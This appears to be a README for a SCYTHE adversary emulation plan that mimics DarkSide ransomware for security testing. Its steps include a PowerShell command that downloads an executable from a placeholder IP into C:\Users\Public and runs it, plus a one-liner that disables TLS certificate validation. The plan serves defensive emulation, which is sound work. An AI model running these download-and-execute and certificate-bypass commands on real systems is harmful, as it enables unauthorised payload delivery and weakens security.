 # DarkSide Ransomware Adversary Emulation Plan

This threat was posted after the Colonial Pipeline ransomware attack on May 7, 2021. It is explained further in SCYTHE's Threat Thursday blog: https://www.scythe.io/library/threatthursday-darkside-ransomware

This threat is based on Cybereason's Cyber Threat Intelligence from April 2021: https://www.cybereason.com/blog/cybereason-vs-darkside-ransomware

To emulate:
1. Download and import the threat in JSON format to your SCYTHE instance - https://raw.githubusercontent.com/scythe-io/community-threats/master/DarkSide/DarkSide_scythe_threat.json
2. Download the Virtual File System (VFS) files under DarkSide/VFS
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/threats/DarkSide
4. Ensure HTTP Relay is running on your SCYTHE server.
5. Create a new campaign, selecting HTTP, and ensuring the communication options match your HTTP Relay. Consider using a "naked IP address" instead of a domain to more closely emulate this attack.
6. Import from Existing Threat: DarkSide
7. Launch Campaign
8. Click More Actions and copy the URL for the desired EXE. 
9. In the target system, run this PowerShell command with the respective URL to download the payload as documented in the CTI: powershell -Command "(New-Object Net.WebClient).DownloadFile('http://0.0.0.0/ServiceLogin123','C:\Users\Public\update.exe')"
10. Execute update.exe

Note that SCYTHE forces HTTPS for operational security. Using an IP will result in a HTTPS certificate validation issue. To get around that:
- Open a PowerShell command prompt
- [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
- (New-Object Net.WebClient).DownloadFile('http://0.0.0.0/ServiceLogin123','C:\Users\Public\update.exe')
- C:\Users\Public\update.exe
